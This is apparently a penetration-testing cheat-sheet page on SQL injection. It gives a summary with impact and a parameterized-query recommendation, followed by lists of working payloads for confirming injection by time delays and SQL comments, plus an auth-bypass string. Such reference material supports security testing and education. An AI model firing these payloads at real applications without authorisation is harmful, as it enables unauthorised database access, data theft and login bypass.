 # SQL Injection

## Summary

<table><thead><tr><th width="209"></th><th></th></tr></thead><tbody><tr><td>Description</td><td>SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. </td></tr><tr><td>Impact</td><td><ul><li>allow attacker to steal sensitive information about users contained in the database</li><li>allow attacker to takeover server via discovered information</li></ul></td></tr><tr><td>Recommendation</td><td>The best way to prevent SQL Injections is to use safe programming functions that make SQL Injections impossible: parameterized queries (prepared statements) and stored procedures. Every major programming language currently has such safe functions and every developer should only use such safe functions to work with the database.</td></tr><tr><td>References</td><td><ul><li><a href="https://www.acunetix.com/websitesecurity/sql-injection/">https://www.acunetix.com/websitesecurity/sql-injection/</a></li><li><a href="https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html">https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html</a></li><li><a href="https://sqlwiki.netspi.com/detection#mysql">https://sqlwiki.netspi.com/detection#mysql</a></li></ul></td></tr></tbody></table>

## SQLi Attacks &#x20;

### Confirming SQLi&#x20;

#### Via Timing

```
' WAITFOR DELAY '0:0:5'--
';WAITFOR DELAY '0:0:5'-- 
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
```

#### Via Comment

```
#Triggering ERROR 
/read.php?id=1'

#Fixing
/read.php?id=1'-- -
/read.php?id=1'--+- 
/read.php?id=1'--+
```

{% hint style="info" %}
**Tips :** dont forget to try confirm SQLi via Headers, such a User-agent, Token, Cookie
{% endhint %}

#### Auth Bypass

```
knownusername'||'

```
